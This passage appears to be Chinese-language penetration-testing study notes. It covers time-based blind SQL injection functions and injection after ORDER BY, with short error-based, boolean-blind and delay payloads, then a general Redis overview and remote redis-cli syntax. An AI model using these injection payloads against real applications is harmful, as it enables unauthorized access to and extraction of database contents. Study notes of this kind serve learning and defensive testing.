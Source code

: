 ### 时间盲注常用函数

**sleep()**

**benchmark()**

## order by后注入

**报错注入**

```sql
1 and extractvalue(1, concat(0x7e, (select @@version),0x7e))
```

**bool盲注**

```sql
order by IF((bool),1,(select 1 union select 2))
```

 **延时盲注**

```sql
不推荐，因为每条数据都会执行延时，能用其他方法就不使用延时。
order by IF(1,sleep(3),0);
```

两条数据延时了6秒

## redis

**通常而言目前的数据库分类有几种，包括 SQL/NSQL,，关系数据库，键值数据库等等 等，分类的标准也不以，Redis本质上也是一种键值数据库的，但它在保持键值数据库简单快捷特点的同时，又吸收了部分关系数据库的优点。从而使它的位置处于关系数据库和键值数 据库之间。Redis不仅能保存Strings类型的数据，还能保存Lists类型（有序）和Sets类型（无序）的数据，而且还能完成排序（SORT） 等高级功能，在实现INCR，SETNX等功能的时候，保证了其操作的原子性，除此以外，还支持主从复制等功能。**
**Redis的优点**
性能极高 – Redis能支持超过 100K+ 每秒的读写频率。
丰富的数据类型 – Redis支持二进制案例的 Strings, Lists, Hashes, Sets 及 Ordered Sets 数据类型操作。
原子 – Redis的所有操作都是原子性的，同时Redis还支持对几个操作全并后的原子性执行。
丰富的特性 – Redis还支持 publish/subscribe, 通知, key 过期等等特性。
**Redis的缺点**
是数据库容量受到物理内存的限制,不能用作海量数据的高性能读写,因此Redis适合的场景主要局限在较小数据量的高性能操作和运算上。
 总结： Redis受限于特定的场景，专注于特定的领域之下，速度相当之快，目前还未找到能替代使用产品。

Redis 客户端的基本语法为：

```
$ redis-cli
```

如果需要在远程 redis 服务上执行命令，同样我们使用的也是 **redis-cli** 命令。

**语法**

```
$ redis-cli -h host -p port -a password
```

有时候会有**中文乱码**。
